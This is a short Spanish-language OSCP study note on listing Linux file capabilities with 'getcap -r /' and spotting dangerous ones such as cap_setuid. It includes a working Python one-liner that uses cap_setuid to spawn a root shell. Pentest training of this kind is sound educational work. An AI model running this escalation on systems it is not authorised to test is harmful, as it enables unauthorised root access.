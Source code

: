 `getcap` permite listar capacidades especiales en binarios sin necesidad de que tengan el bit SUID. Algunas capacidades pueden permitir ejecución privilegiada sin ser root. Es totalmente válido para usar en OSCP.

---

## ¿Qué hace `getcap`?

Muestra capacidades asignadas a binarios mediante `setcap`. Estas capacidades permiten que un binario realice operaciones privilegiadas incluso sin ser ejecutado como root.

---

## Comando básico

```bash
getcap -r / 2>/dev/null
```

- `-r /`: recursivo desde raíz
- `2>/dev/null`: oculta errores por falta de permisos

---

## Capacidades peligrosas a tener en cuenta

- `cap_setuid+ep`: permite cambiar UID → escalada
- `cap_setgid+ep`: cambiar GID
- `cap_dac_override`, `cap_dac_read_search`: leer ficheros restringidos
- `cap_sys_admin`: acceso avanzado tipo root (muy peligroso)
- `cap_net_bind_service`: ejecutar en puertos bajos

---

## Ejemplo de salida útil

```
/usr/bin/python3.8 = cap_setuid+ep
```

Este Python puede permitirte escalar privilegios:
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

> Revisa siempre en [GTFOBins](https://gtfobins.github.io) si el binario es explotable.

---

## Casos de Uso OSCP

- Escalada mediante binarios con `cap_setuid`
- Acceso a ficheros restringidos (`cap_dac_*`)
- Ejecución de shell root desde binarios privilegiados

---

## Buenas Prácticas

- Ejecuta `getcap -r /` al inicio de la privesc
- Filtra resultados con `grep` si buscas capacidades específicas
- Documenta cualquier binario que no reconozcas o esté fuera de ruta común

---
